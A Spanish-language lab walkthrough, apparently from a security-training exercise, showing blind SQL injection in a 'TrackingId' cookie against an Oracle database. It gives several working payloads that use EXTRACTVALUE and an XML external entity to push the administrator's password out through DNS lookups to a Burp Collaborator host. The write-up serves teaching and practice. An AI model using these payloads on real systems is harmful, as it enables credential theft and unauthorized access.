 La vulnerabilidad se encuentra nuevamente en la cookie ‘**TrackingId**‘, donde inyectamos un payload que construye dinámicamente una petición DNS hacia un subdominio de Burp Collaborator. En este caso, concatenamos la contraseña del usuario ‘**administrator**‘ dentro de la URL del dominio, de modo que dicha información se filtre al servidor externo.

El ataque utiliza funciones de XML como ‘**EXTRACTVALUE**‘ y el tipo ‘**xmltype**‘, combinadas con subconsultas SQL (**SELECT password FROM users WHERE username=’administrator’**) que inyectan el dato como parte de la resolución DNS.

Finalmente, desde la pestaña Collaborator de Burp Suite, verificamos las interacciones registradas y recuperamos el valor exfiltrado. Con esta contraseña accedemos como administrador y resolvemos el laboratorio.

Esta técnica resulta extremadamente eficaz en entornos donde no hay errores, ni cambios en el tiempo de respuesta ni retroalimentación alguna, aprovechando canales secundarios para obtener información confidencial del sistema

------

Primero debemos de probar todas las posibilidades para sabes si es vulnerable a SQL, y en dado caso de no tener exito, realizamos el siguiente payload en el valor de la cookie TrackingId:

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

**Recuerda Urlencodear los ; y los % para que no entre en conflicto con el formato de la peticion**

Lo que podemos hacer, es testear si podemos meter datos como subdominio de la URL del colaborator:

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cadena.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

Para realizar una sentencia en Oracle debemos de ponerlo entre comillas y entre parentesis y realizar una concatenacion, haremos lo siguiente

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(query)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

Ahora ya podemos meter una query diseñada para minar informacion de la base de datos de oracle, mostrando el nombre del usuario administrator:

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select username from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

Para obtenemos el valor de la contraseña del usuario administrador:

```xml
TrackingId=codncnov1' union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual-- -
```

Y el verificar en el Collaborator, se muestra la peticion DNS con la contraseña del usuario administrator.